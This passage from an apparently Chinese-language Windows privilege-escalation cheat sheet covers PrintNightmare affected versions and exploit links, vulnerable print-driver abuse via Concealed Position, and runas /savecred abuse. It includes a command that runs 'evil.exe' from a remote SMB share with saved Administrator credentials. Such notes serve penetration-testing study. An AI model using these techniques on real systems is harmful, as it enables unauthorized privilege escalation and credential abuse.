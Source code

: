 Windows 10 Version 2004 for x64-based Systems
Windows 10 Version 2004 for ARM64-based Systems
Windows 10 Version 2004 for 32-bit Systems
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems

- [cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)
- [〖EXP〗Ladon打印机漏洞提权CVE-2021-1675复现 | K8哥哥’s Blog](https://k8gege.org/p/CVE-2021-1675.html)


### Bring Your Own Vulnerability
windows 允许低权限用户安装打印机驱动，因此我们可以自行安装带有漏洞的驱动程序，然后通过这些驱动程序的漏洞提权到 SYSTEM。

Concealed Position : https://github.com/jacob-baines/concealed_position
- ACIDDAMAGE - CVE-2021-35449 - Lexmark Universal Print Driver LPE
- RADIANTDAMAGE - CVE-2021-38085 - Canon TR150 Print Driver LPE
- POISONDAMAGE - CVE-2019-19363 - Ricoh PCL6 Print Driver LPE
- SLASHINGDAMAGE - CVE-2020-1300 - Windows Print Spooler LPE


利用 exp：
- [jacob-baines/concealed\_position: Bring your own print driver privilege escalation tool](https://github.com/jacob-baines/concealed_position)

## 利用 RunAS 命令提权或降权
RunAS 命令使用场景：
1. 权限不够读不到帐密或 HASH 的情况下，验证用户是否使用某个已保存的密码，使用该已保存的密码可实现提权
2. SYSTEM 权限降权到某个用户进行操作时，例如切换到特定的用户，读取对应的浏览器记录、或者获取特定用户的 shell 等。

枚举保存的密码：
```bat
cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=WORKGROUP\Administrator
    Type: Domain Password
    User: WORKGROUP\Administrator
```
使用保存的凭证连接远程 SMB 或者直接运行命令：
```bat
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

其他利用：
